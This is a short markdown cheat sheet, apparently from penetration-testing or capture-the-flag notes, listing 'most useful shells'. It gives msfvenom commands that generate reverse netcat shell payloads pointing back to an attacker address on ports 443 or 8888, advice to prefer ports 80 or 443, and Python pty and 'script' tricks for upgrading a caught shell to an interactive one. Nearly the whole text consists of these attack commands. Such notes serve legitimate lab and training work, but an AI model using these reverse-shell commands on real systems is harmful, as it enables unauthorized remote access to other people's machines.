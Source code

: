# Most useful shells

* Try always using ports: 80 or 443 if open

## Linux

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.xxx.xxx LPORT=443 -f python`

* simple netcat oneline
`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888`

# Shell Upgrade

* The bind/reverse shell is not always fully interactive
* Python trick can be used to make it such

<code> python -c 'import pty; pty.spawn("/bin/bash")' </code><br>
<code> python3 -c 'import pty;pty.spawn("/bin/bash")' </code>

* Using script
'script /dev/null -c bash'
